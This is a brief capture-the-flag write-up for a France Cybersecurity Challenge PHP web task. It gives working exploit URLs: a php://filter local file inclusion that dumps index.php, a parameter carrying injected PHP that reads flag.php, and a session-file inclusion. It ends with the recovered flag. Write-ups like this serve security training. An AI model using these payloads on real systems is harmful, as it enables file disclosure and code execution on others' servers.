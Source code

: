 First step: exploit LFI to get the source code of index.php<br />
Then : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php```<br />

```powershell http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents('flag.php');?>```<br />

```powershell http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=sessions/sess_<PHPSESSID```<br />

Source code: 


$flag="FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}";

